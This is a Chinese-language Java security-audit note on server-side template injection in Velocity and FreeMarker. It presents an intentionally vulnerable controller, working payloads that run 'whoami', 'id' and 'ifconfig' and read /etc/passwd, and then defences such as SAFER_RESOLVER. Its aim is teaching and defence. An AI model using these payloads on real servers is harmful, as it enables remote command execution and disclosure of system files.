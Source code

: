 # java代码审计-ssti

## 0x01漏洞挖掘

### Velocity
https://www.cnblogs.com/LittleHann/p/17846825.html#_lab2_0_3
```java
@RequestMapping("/ssti/velocity")
public String velocity(@RequestParam(name = "content") String content) {
    Velocity.init();
    VelocityContext velocityContext = new VelocityContext();

    velocityContext.put("username", "seaii");

    StringWriter stringWriter = new StringWriter();
    Velocity.evaluate(velocityContext, stringWriter, "test", content);
    return stringWriter.toString();
}
```

利用方式：

```
#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")
```

### FreeMarker

```java
@RequestMapping("/ssti/freemarker")
public String freemarker() throws IOException, TemplateException {
    Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
    configuration.setClassForTemplateLoading(this.getClass(), "/templates");
    Template template = configuration.getTemplate("test.ftl");

    Map<String, Object> rootMap = new HashMap<String, Object>();
    rootMap.put("username", "passwd");
    StringWriter stringWriter = new StringWriter();
    template.process(rootMap, stringWriter);
    return stringWriter.toString();
}
```

freemarker与velocity的攻击方式不太一样，freemarker可利用的点在于模版语法本身，直接渲染用户输入payload会被转码而失效，所以一般的利用场景为上传或者修改模版文件。

利用方式如下：

命令执行1：

```java
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

命令执行2：

```java
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line}
    ${"<br>"}
</#list>
```

文件读取：

```java
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line?html}
    ${"<br>"}
</#list>
```

将上面的payload写入到模版文件保存，然后让freemarker加载即可。

## 0x02漏洞防御

### Velocity

velocity到目前最新版本也没有提供沙盒或者防御方式，只能禁止或严格过滤用户输入进入**Velocity.evaluate**。

### FreeMarker

最简单的方式是使用**TemplateClassResolver**，文档在这：

[https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html](https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html)

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191210230921.png)

可根据实际需求选择这两种方式，代码实现如下：

```java
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

但这并不是一劳永逸的防御方式，如果配置不当，依然会造成安全问题：

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)

## 0x03参考链接

[服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）](https://wooyun.js.org/drops/%E6%9C%8D%E5%8A%A1%E7%AB%AF%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%8E%B0%E4%BB%A3WEB%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%EF%BC%88%E8%A1%A5%E5%85%85%E7%BF%BB%E8%AF%91%E5%92%8C%E6%89%A9%E5%B1%95%EF%BC%89.html)

[https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)
